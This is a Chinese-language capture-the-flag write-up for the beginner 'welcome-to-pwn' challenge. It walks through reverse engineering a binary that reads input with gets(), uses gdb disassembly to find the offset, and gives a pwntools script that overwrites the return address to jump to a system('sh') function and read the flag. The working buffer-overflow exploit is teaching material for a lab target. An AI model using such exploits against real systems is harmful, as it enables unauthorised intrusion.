 # [2024SpringTrains] welcome-to-pwn WriteUp

## 工具准备

### 一台 Linux 系统 (推荐 Debian 系的比如 Ubuntu 或 Kali Linux 的 虚拟机 / WSL)

[Kali WSL 安装教程](https://herveyb3b4.github.io/2023/11/30/How-to-install-Kali-WSL/) ~~趁机宣传一下博客~~

### gdb 调试工具

```shell
sudo apt install gdb
```

### pwntools

```shell
sudo apt install python3-pwntools
```

或者直接使用 `pip3` 安装

```shell
python3 -m pip install pwntools
```

## 过程记录

下载后获得文件 attachment

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./attachment
./attachment: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ad1699dcda24040006490441da0f0e70ef03456, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=attachment
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               1               attachment
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Welcome to Stringer CTF 2024.");
  gets(v4);
  return 0;
}
```

同时我们还能找到一个 `try_to_call_me` 函数

```c
int try_to_call_me()
{
  return system("sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `v4` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("sh")` 进而去获得 flag

使用 `gdb` 运行 `attachment` 获得变量 `v4` 的缓冲区大小以及 `system("sh")` 对应的位置

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ gdb
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) file attachment
Reading symbols from attachment...
(No debugging symbols found in attachment)
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040069a <+0>:     push   %rbp
   0x000000000040069b <+1>:     mov    %rsp,%rbp
   0x000000000040069e <+4>:     sub    $0x30,%rsp
   0x00000000004006a2 <+8>:     mov    0x2009b7(%rip),%rax        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x00000000004006a9 <+15>:    mov    $0x0,%ecx
   0x00000000004006ae <+20>:    mov    $0x2,%edx
   0x00000000004006b3 <+25>:    mov    $0x0,%esi
   0x00000000004006b8 <+30>:    mov    %rax,%rdi
   0x00000000004006bb <+33>:    call   0x400590 <setvbuf@plt>
   0x00000000004006c0 <+38>:    mov    0x2009a9(%rip),%rax        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006c7 <+45>:    mov    $0x0,%ecx
   0x00000000004006cc <+50>:    mov    $0x2,%edx
   0x00000000004006d1 <+55>:    mov    $0x0,%esi
   0x00000000004006d6 <+60>:    mov    %rax,%rdi
   0x00000000004006d9 <+63>:    call   0x400590 <setvbuf@plt>
   0x00000000004006de <+68>:    mov    0x20099b(%rip),%rax        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006e5 <+75>:    mov    $0x0,%ecx
   0x00000000004006ea <+80>:    mov    $0x2,%edx
   0x00000000004006ef <+85>:    mov    $0x0,%esi
   0x00000000004006f4 <+90>:    mov    %rax,%rdi
   0x00000000004006f7 <+93>:    call   0x400590 <setvbuf@plt>
   0x00000000004006fc <+98>:    lea    0xa4(%rip),%rdi        # 0x4007a7
   0x0000000000400703 <+105>:   call   0x400560 <puts@plt>
   0x0000000000400708 <+110>:   lea    -0x30(%rbp),%rax
   0x000000000040070c <+114>:   mov    %rax,%rdi
   0x000000000040070f <+117>:   mov    $0x0,%eax
   0x0000000000400714 <+122>:   call   0x400580 <gets@plt>
--Type <RET> for more, q to quit, c to continue without paging--c
   0x0000000000400719 <+127>:   mov    $0x0,%eax
   0x000000000040071e <+132>:   leave
   0x000000000040071f <+133>:   ret
End of assembler dump.
(gdb) disassemble try_to_call_me
Dump of assembler code for function try_to_call_me:
   0x0000000000400687 <+0>:     push   %rbp
   0x0000000000400688 <+1>:     mov    %rsp,%rbp
   0x000000000040068b <+4>:     lea    0x112(%rip),%rdi        # 0x4007a4
   0x0000000000400692 <+11>:    call   0x400570 <system@plt>
   0x0000000000400697 <+16>:    nop
   0x0000000000400698 <+17>:    pop    %rbp
   0x0000000000400699 <+18>:    ret
End of assembler dump.
```

从这里我们可以得知:

* 变量 `v4` 的大小为 `0x30` ，偏移长度为 `0x8`
* `system("sh")` 语句对应的地址为 `0x000000000040068b`

由此我们可以构造 `payload` 并写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0x30 + b'12345678' + p64(0x40068B)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
Welcome to Stringer CTF 2024.
$ ls
attachment
bin
dev
flag
lib
lib32
lib64
$ cat flag
flag{<flag>}
```

进而获得 flag
